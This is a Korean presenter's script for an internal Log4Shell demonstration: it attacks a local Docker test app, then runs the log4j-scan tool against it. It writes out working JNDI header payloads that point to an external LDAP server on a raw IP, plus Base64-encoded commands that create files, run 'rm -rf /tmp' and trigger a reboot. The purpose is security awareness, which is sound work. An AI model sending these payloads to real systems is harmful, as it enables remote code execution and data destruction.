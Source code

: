 # log4j 공격 시연 시나리오 및 스캔 시연

> 사내 연말 Log4j 취약점 이슈 발표용 시연 시나리오

## 서버 세팅

### 1. 취약 서버(1번탭)

```zsh
docker start vulnerable-app
docker logs -f vulnerable-app
```

![1](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/1.png)

> 새로운 탭 `Ctrl+Shift+T`
>
> 2번탭:  `docker exec -it vulnerable-app ls -al /tmp` 해서 tmp 폴더 상태 띄워두기

![2](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/2.png)

### 2. 공격 서버

> 3번 탭 새로 하나 띄우고 `Ctrl+Shift+T`

```zsh
ssh cloud
java -jar /shane/attack.jar -i 146.56.44.96 -p 8888
```

![3](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/3.png)

### 3. Postman 실행

> Postman 크기를 적당히 조정해서 1번 tab의 로그가 갱신될 때 확인 가능하도록 해둠. Terminal Tab을 1번으로 돌려둠.

## 공격

> Postman에 요청

### Log4J가 JNDI LookUp을 하고 있는지 확인

```zsh
GET: localhost:9999
Header Key: X-Api-Version
Header Value: ${jndi:java:version}
```

![4](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/4.png)

> javq 버전 올라오는 것 확인 후, Tab을 공격 서버로 변경 (3번탭)

### LDAP 서버로 요청을 보내는지 확인

```zsh
GET: localhost:9999
Header Key: X-Api-Version
Header Value: ${jndi:146.56.44.96:1389/argonet}
```

> Postman 사용불가능할 경우 Terminal에서 curl로 요청
>
> ```zsh
> curl 127.0.0.1:9999 -H 'X-Api-Version: ${jndi:146.56.44.96:1389/argonet}'
> ```

![5](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/5.png)

- 공격 쿼리 전송

> 3번 tab에서 LDAP 요청 온것 확인 후, 1번탭에서 look up 한것 확인 후 다시 3번 탭 띄워둠.

### 쿼리로 보낼 커맨드 Base64로 인코딩

```zsh
echo -n 'touch /tmp/argonet.december-table' | base64
```

![6](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/6.png)

### 취약 서버에 명령어 전송

```zsh
PostMan으로 헤더에 X-Api-Version value 넣어서 요청 혹은 curl로 요청
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://146.56.44.96:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9hcmdvbmV0LmRlY2VtYmVyLXRhYmxl}'
```

![7](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/7.png)

> Payload에 `touch /tmp/agronet.december-table` 이라는 커맨드를 담아 요청 한 것을 확인.

### 취약서버 공격 당한 흔적 확인

> 2번 Tab을 열어 같은 명령어를 그대로 쳐서 새로운 파일이 들어온 것을 확인

![8](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/8.png)

> 백도어가 간단하게 심어진다는 것을 설명. 파일 생성시간을 확인 시켜준다.

UTC 시간을 확인시켜 준다.

```zsh
date -u
```

![9](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/9.png)

폴더 삭제 시연

> 다시 공격 서버로 탭 3번 올려둠.

명령어 만들기 위해 새로운 창의 Terminal에서 tmp 폴더 삭제 명령어 인코딩 후 공격 코드 전송

```zsh
echo -n 'rm -rf /tmp' | base64
```

![10](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/10.png)

이후 두번째 탭에서 파일 삭제 된 것 확인

![11](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/11.png)

### reboot 명령까지 전송

> 3번탭에서 reboot 명령어 전송 된 것 확인 후 docker 컨테이너 종료 된 것 확인

![12](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/12.png)

<br><br>

공격 시연 끝 다시 발표로 돌아가기

## log4j scan 시연

일단 vulnerable-app 다시 실행 해 준다.

```zsh
docker start vulnerable-app
```

> 혹시 tmp 폴더를 지워버렸으면 docker 컨테이너가 실행이 안되니 /tmp 폴더를 생성 해줘야함
>
> 안그러면 서버가 계속 죽는다.
>
> ```zsh
> mkdir tmp
> docker cp ./tmp vulnerable-app:/
> docker start vulnerable-app
> ```

`docker logs -f vulnerable-app ` 해서 서버 잘 뜬거 확인 후

```zsh
git clone git@github.com:fullhunt/log4j-scan.git
```

```
cd log4j-scan
ls
pip3 install -r requirements.txt
python3 log4j-scan.py -u "http://gaia.best"
```

![13](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/13.png)

이번에는 취약 서버 확인

```zsh
python3 log4j-scan.py -u "http://localhost:9999"
```

![14](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/14.png)

Targets Affected 확인.

<br><br>

취약점 스캔 시연 끝. 발표로 돌아가기
